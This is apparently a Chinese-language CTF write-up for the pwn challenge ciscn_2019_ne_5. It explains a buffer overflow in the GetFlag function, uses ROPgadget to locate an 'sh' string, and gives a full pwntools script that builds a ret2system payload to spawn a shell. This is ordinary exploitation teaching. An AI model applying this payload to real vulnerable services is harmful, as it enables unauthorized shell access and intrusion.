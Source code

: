 - 程序逻辑

- `/bin/sh`的替代方案`sh`

- 栈上覆盖

- `ROPgadgets`查找字符串

  ![image-20231228211113719](../assets/img/old_imgs/image-20231228211113719.png)

  > GetFlag函数

  1.`GetFlag`函数中把先前`AddLog`中加入的`src`变量赋给了`dest`,这里存在溢出

  2.`Print`函数中有`system`函数,通过`plt_system`利用

  3.通过`ROPgadgets`得到`sh`字符串构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/ciscn_2019_ne_5$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

|          | administer      |      |            |                 |
| -------- | --------------- | ---- | ---------- | --------------- |
|          | 1               |      |            |                 |
| payload1 | padding         |      | 0x4C       | dest            |
|          |                 |      |            | (padding+leave) |
|          | system_plt_addr | ret  |            | system          |
|          | 0xdeadbeef      |      |            |                 |
|          | sh              |      | 0x080482ea |                 |

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_2019_ne_5')
io = process('./ciscn_2019_ne_5')
#io = gdb.debug('./ciscn_2019_ne_5','break *080486C7')
io.sendlineafter(b'Please input admin password:',b'administrator')
io.sendlineafter(b':\n',b'1')
payload1 = b'A'*0x4C+p32(elf.sym['system'])+p32(0xdeadbeef)+p32(0x080482ea)	#不能用p32(0)替代p32(deadbeef)
io.sendlineafter(b'Please input new log info:',payload1)
io.sendlineafter(b':\n',b'4')
io.interactive()
```
